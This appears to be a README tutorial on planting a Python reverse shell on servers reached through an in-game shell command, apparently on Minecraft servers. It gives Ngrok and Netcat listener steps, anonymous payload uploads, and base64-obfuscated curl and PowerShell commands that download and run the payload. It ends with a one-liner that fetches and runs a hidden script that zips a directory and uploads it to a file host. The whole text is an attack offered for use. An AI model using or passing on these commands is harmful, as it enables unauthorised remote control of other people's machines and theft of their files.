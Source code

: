 # Python Reverse Shell Tutorial (Linux and Windows)
### UPDATE: I made a Windows batch script that does it all automatically, from installing Python, to compiling the code and uploading, it's all user-friendly: [0137b23d50.zip](https://catlitter.minoa.cat/api/view/0137b23d50.zip)
###
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python script n compiler](https://catlitter.minoa.cat/api/view/fafc8a7461.zip) and in rs.py edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [anontransfer.com](https://anontransfer.com/)!
   - Once finished uploading goto the download url, click download, then go into your downlaod manager and copy the direct download link.

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into your Terminal**
   - While in, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
Linux:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`
###
Windows:
`powershell -Command "Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}'))) -OutFile ([System.IO.Path]::GetFileName(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}')))))"`

###

8. **Run the File**
Linux:
`chmod +x {FILENAME}`
 `./{FILENAME}`
Windows:
`start {FILENAME}`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && bash ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*
